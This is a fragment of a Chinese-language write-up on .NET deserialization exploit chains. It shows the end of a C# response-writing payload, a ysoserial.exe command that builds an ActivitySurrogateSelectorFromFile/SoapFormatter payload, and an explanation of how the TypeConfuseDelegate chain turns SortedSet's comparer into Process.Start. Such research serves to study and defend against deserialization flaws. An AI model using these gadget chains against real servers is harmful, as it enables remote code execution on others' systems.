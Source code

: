 ```plain
            context.Response.Write(output);
        } catch (System.Exception) {}
        context.Response.Flush();
        context.Response.End();
    }
}
```

```plain
ysoserial.exe -g ActivitySurrogateSelectorFromFile -f SoapFormatter -c "dlls\E.cs;System.Web.dll;System.dll"
```

## TypeConfuseDelegate相关的链子

### 反序列化链

#### TypeConfuseDelegate+ObjectDataProvider（利用的是委托特性）

对于这个链子的解释，最终也是调用了ObjectDataProvider，但是可以去替代TextFormattingRunProperties去衔接其他链子。

**调用的类**：SortedSet + ObjectDataProvider

**思路**：SortedSet中OnDeserialization会在反序列化时触发，调用Add函数，在Add的时候，经过多次重载调用了比较器的Compare()方法。即我们反射修改的Process.Start(string,string)

[![](assets/1701606816-528b21b1232180c912d74523d4e5fa19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102105550-54d935f8-792b-1.png)
